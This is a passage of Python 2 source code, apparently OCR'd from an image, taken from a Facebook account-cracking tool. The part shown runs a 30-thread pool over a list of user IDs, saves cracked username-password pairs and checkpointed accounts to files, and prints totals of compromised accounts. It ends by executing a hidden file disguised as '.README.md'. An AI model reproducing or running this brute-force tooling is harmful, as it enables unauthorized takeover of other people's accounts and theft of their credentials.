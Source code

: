 #				        okb.write(k+c+user+'|'+pass2+'\n')
#				        okb.close()
#				        oks.append(c+user+pass2)
#				    else:
#				        if 'www.facebook.com' in q['error_msg']:
#					        print '[Checkpoint] ' + k + c + user + ' | ' + pass2+'\n'
#					        cps = open('save/checkpoint.txt', 'a')
#					        cps.write(k+c+user+'|'+pass2+'\n')
#					        cps.close()
#					        cpb.append(c+user+pass2)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*'-'
	print '[✓] Process Has Been Completed....'
	print '[✓] Total OK/CP : '+str(len(oks))+'/'+str(len(cpb))
	print('[✓] CP File Has Been Saved : save/checkpoint.txt')
	raw_input('\n[Press Enter To Go Back]')
	os.system('python2 .README.md')
		
if __name__ == '__main__':
	menu()



